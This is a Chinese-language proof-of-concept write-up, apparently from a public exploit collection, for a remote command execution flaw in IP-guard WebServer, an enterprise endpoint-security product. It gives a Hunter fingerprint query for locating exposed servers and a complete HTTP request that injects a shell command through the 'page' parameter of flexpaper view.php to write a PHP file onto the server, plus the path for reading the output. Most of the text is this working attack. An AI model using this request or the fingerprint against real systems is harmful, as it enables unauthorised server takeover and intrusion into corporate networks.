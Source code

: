 # IP-guard WebServer 远程命令执行漏洞

# 一、漏洞简介
IP-guard是由溢信科技股份有限公司开发的一款终端安全管理软件，旨在帮助企业保护终端设备安全、数据安全、管理网络使用和简化IT系统管理。IP-guard WebServer 存在远程命令执行漏洞。攻击者可利用该漏洞执行任意命令，获取服务器控制权限。

# 二、影响版本
+ IP-guard

# 三、资产测绘
+ hunter`web.icon=="210a3c89d4ab5effa18d6dd7a9627376"`
+ 特征

![1699584205812-20797c54-6a49-4a18-a038-f0d965e86b5f.png](./img/3T4Q8T2NsWY0JGug/1699584205812-20797c54-6a49-4a18-a038-f0d965e86b5f-939078.png)

# 四、漏洞复现
```plain
GET /ipg/static/appr/lib/flexpaper/php/view.php?doc=1.jpg&format=swf&isSplit=true&page=||echo+^<?php+phpinfo();+?^>+>2.php HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ipg_session=uiki60dds9f9jop2jpj0vn8h22aa3e1o
Upgrade-Insecure-Requests: 1
```

![1699584258482-7fa4b92d-0349-42e7-acfb-46bde1b24107.png](./img/3T4Q8T2NsWY0JGug/1699584258482-7fa4b92d-0349-42e7-acfb-46bde1b24107-486349.png)

获取命令执行结果

```plain
/ipg/static/appr/lib/flexpaper/php/2.php
```

![1699584306366-fbf98e4f-fd68-4cd6-9f88-28383acfde03.png](./img/3T4Q8T2NsWY0JGug/1699584306366-fbf98e4f-fd68-4cd6-9f88-28383acfde03-388051.png)



> 更新: 2024-02-29 23:57:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/opebo53vl523fg3s>